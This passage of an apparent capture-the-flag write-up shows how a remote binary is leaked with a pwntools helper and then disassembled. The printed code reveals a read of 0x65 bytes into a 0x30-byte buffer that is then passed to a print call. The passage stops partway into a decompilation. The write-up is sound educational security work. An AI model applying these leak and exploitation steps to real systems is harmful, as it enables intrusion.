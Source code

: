 ## The Binary

Having the base address we can use the `leak_binary` function shown before:
```python
binary = leak_binary(base, 0x4000)
```
Here I chose to leak `0x4000` bytes as an starting value, but the connection dies at around `0x3700`. I did not check if the connection timed out or some other error occured. These bytes were enough to carry out the exploit.


Saving `binary` into a file `binfile.elf`, we can then:
```
binfile2.elf: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /home/user/assets/glibc/ld-2.31.so, missing section headers at 21480
```
Which confirmes some of our assumptions of the program. Now
loading it into `Ghidra` or simply by using `disasm(binary)` from pwntools, and then inspecting the output, one can find the following code
(You may have to tell `Ghidra` which parts of the binary that needs to be interpreted as code). Notice this is

```
147b:       f3 0f 1e fa             endbr64
147f:       55                      push   rbp
1480:       48 89 e5                mov    rbp, rsp
1483:       48 83 ec 30             sub    rsp, 0x30
1487:       64 48 8b 04 25 28 00    mov    rax, QWORD PTR fs:0x28
148e:       00 00
1490:       48 89 45 f8             mov    QWORD PTR [rbp-0x8], rax
1494:       31 c0                   xor    eax, eax
1496:       48 c7 45 d0 00 00 00    mov    QWORD PTR [rbp-0x30], 0x0
149d:       00
149e:       48 c7 45 d8 00 00 00    mov    QWORD PTR [rbp-0x28], 0x0
14a5:       00
14a6:       48 c7 45 e0 00 00 00    mov    QWORD PTR [rbp-0x20], 0x0
14ad:       00
14ae:       48 c7 45 e8 00 00 00    mov    QWORD PTR [rbp-0x18], 0x0
14b5:       00
14b6:       c7 45 f0 00 00 00 00    mov    DWORD PTR [rbp-0x10], 0x0
14bd:       66 c7 45 f4 00 00       mov    WORD PTR [rbp-0xc], 0x0
14c3:       48 8d 45 d0             lea    rax, [rbp-0x30]
14c7:       ba 65 00 00 00          mov    edx, 0x65
14cc:       48 89 c6                mov    rsi, rax
14cf:       bf 00 00 00 00          mov    edi, 0x0
14d4:       e8 27 fc ff ff          call   0x1100
14d9:       48 8d 45 d0             lea    rax, [rbp-0x30]
14dd:       48 89 c7                mov    rdi, rax
14e0:       b8 00 00 00 00          mov    eax, 0x0
14e5:       e8 06 fc ff ff          call   0x10f0
14ea:       b8 00 00 00 00          mov    eax, 0x0
14ef:       48 8b 4d f8             mov    rcx, QWORD PTR [rbp-0x8]
14f3:       64 48 33 0c 25 28 00    xor    rcx, QWORD PTR fs:0x28
14fa:       00 00
14fc:       74 05                   je     0x1503
14fe:       e8 dd fb ff ff          call   0x10e0
1503:       c9                      leave
1504:       c3                      ret
```
With the decompilation from `Ghidra`:
```C
undefined8 do_stuff(void)

{
  undefined8 uVar1;
  long in_FS_OFFSET;
```